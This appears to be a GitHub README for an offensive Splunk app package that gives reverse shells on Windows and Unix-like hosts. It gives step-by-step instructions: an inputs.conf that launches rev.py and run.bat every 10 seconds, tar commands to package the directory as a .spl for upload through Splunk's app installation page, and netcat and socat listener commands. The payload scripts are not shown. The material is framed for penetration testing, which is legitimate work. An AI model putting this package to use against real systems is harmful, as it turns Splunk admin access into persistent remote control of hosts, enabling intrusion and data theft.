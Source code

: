 # reverse_shell_splunk
A simple splunk package for obtaining reverse shells on both Windows and most *nix systems. 

# requirements 
* splunk administrative access
* a netcat / socat listener on the attacking machine 


# how to use


* Depending on the target machine, you will either need to edit the rev.py for unix type machines or run.ps1 for Windows machines. Enter your attacking machine IP and ports. 
* Your files and directory structure should look like this.


```
reverse_shell_splunk
├── bin
│   ├── rev.py
│   ├── run.bat
│   └── run.ps1
└── default
    └── inputs.conf

```

* inputs.conf in this instance is the configuration file that tells splunk to launch the run.bat file and at what interval. In the example below "run.bat" will be run every 10 seconds. Because splunk only runs .bat files, the call inside "run.bat" is to a file with its same name. When run.bat is called, run.ps1 being in the same directory and having the same name will be run. 


```
[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = pentest

[script://.\bin\run.bat]
disabled = 0
sourcetype = pentest
interval = 10

```
* Once you have finished editing the files you will need to tar up the directory and its contents. Make sure to keep the directory and file structure in the example above. Lastly rename the .tgz file to .spl

```

tar -cvzf reverse_shell_splunk.tgz reverse_shell_splunk
mv reverse_shell_splunk.tgz reverse_shell_splunk.spl

```

* Launch your listener and upload this package via the app installation page. 

```
Listener options
nc -nlvp "port"
or 
socat `tty`,raw,echo=0 tcp-listen:"port"
```

Note: I have had to restart the splunk service on unix type machines in my testing for this to work. No restarts are needed on windows machine. 
